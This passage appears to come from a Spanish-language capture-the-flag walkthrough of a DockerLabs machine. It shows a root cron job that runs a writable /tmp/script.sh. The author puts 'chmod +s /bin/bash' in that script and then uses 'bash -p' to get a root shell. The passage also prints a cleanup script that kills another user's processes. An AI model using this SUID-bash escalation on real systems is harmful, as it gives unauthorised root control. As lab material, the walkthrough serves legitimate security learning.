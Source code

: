```bash
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

#*/1 * * * * chmod +r /var/spool/cron/crontabs/root
/opt/update.sh
/tmp/script.sh

```

Creamos el script.sh en tmp :
```bash
www-data@dockerlabs:/tmp$ bash -p 
bash-5.2# whoami
root
bash-5.2# cat /tmp/script.sh 
#!/usr/bin/env bash

chmod +s  /bin/bash
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**

Vemos que el otro script nos cerraba todo lo del usuario boss por seguridad:

```bash
bash-5.2# cat /opt/update.sh
#!/bin/bash

# Comprobar si el usuario 'boss' tiene algún proceso en ejecución
# También buscar procesos asociados a "script" o shells indirectas
if pgrep -u boss > /dev/null; then
    # Mostrar procesos activos del usuario boss para depuración (opcional)
    echo "Procesos activos del usuario boss:"
    ps -u boss

    # Matar todos los procesos del usuario 'boss' incluyendo 'script'
    pkill -u boss
    pkill -9 -f "script"

    # Confirmar que los procesos fueron terminados
    if pgrep -u boss > /dev/null; then
        echo "No se pudieron terminar todos los procesos del usuario boss."
    else
        echo "El usuario boss ha sido desconectado por seguridad."
    fi
else
    echo "El usuario boss no está conectado."
fi

```



